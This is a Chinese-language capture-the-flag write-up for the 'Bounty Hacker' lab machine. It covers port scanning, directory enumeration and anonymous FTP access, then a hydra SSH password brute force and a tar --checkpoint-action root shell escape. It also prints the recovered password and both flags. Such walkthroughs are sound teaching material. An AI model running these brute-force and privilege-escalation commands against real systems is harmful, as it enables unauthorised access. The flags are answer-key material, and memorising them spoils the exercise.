








# Bounty Hacker

首先拿到機器 IP: `10.10.51.4`，並確認機器已上線

`ping 10.10.51.4`



接著使用 nmap 尋找有開哪些服務，與前面一樣同時用不同程度的掃描以搶時間及驗證

`nmap -v -sT -T4 -Pn 10.10.51.4`



`nmap -v -sV -p- -sC --min-rate 5000 10.10.51.4`


可以看到一共找到了以下這些確定的服務: 
```
21  ftp
22  ssh
80  http    Apache 2.4.18
```

以及找到了以下不確定的 port
```
20
990
```

既然有網頁服務，那就直接用瀏覽器打開，但初步看起來只是一段小故事而已，沒有太特別的


另外也使用了 dirsearch 及 gobuster 工具來掃掃看有沒有特別的路徑

`python dirsearch/dirsearch.py -u http://10.10.51.4/`



`gobuster dir -u http://10.10.51.4/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`



綜合掃描結果，可以找到以下路徑，但基本上沒什麼特別的，不過可以嘗試看看 `/images/` 裡有什麼東西

```
/images/
/index.php
```



其中的 `crew.jpg` 就是首頁中的那張圖，沒有其他東西了

此外我也嘗試使用 Burp 來看 sitemap，但也沒有看到特別的東西



因為在 HTTP 部分幾乎是沒有找到特別的東西，所以我偷偷看了一下題目的提示，發現到我們還有 ftp 的部分還沒看，因此接下來看 ftp

嘗試使用 `anonymous` 的身分登入 ftp

`ftp 10.10.51.4 -p 21`


不過在嘗試用 `ls` 列出目錄時發現有 `229 Entering Extended Passive Mode` 資訊出現後沒有反應的問題，上網搜尋之後找到[這篇文章](https://blog.csdn.net/carolzhang8406/article/details/6079899)，得知可以用 `passive` 指令進入 passive mode


試驗進入 passive mode 之後成功列出目錄


目錄中有 `locks.txt` 和 `task.txt` 這兩個文件，使用 `more` 指令讀取

`more task.txt`


`more locks.txt`



而根據題目接下來的問答說明，可知我們需要 bruteforce `lin` 這個 user 的密碼，而從[前面題目](../basic_pentesting/solve.md)可以想到是要來破解 SSH 密碼

由於 bruteforce 需要有字典檔，而猜測 `locks.txt` 有可能就是這個字典，所以使用 `mget` 指令下載下來

`mget locks.txt`

使用 hydra 破解密碼

`hydra -l lin -P ./locks.txt ssh://10.10.51.4`


正如我們所猜測的，我們順利找到使用者 `lin` 的密碼為 `RedDr4gonSynd1cat3`，接著 ssh 上去

`ssh lin@10.10.51.4`

使用 `id` 指令，查看目前身分及群組


而在家目錄中，找到 `user.txt`


`THM{CR1M3_SyNd1C4T3}`

接著是提權，首先使用 `sudo -l` 查看我們可用的 sudo 指令


可以看到我們可以用以 root 的身分執行 `/bin/tar` 執行檔，而我們也可以從 [GTFOBins/tar](https://gtfobins.github.io/gtfobins/tar/) 找到有關 `tar` 生出 shell 的相關指令

執行指令，生成 shell

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

使用指令 `id`，確認目前身分及權限


可以看到我們確實成為了 root 的身分

在 `/root` 中可以找到 `root.txt`



`THM{80UN7Y_h4cK3r}`

自此，我們已取得這台機器的完整權限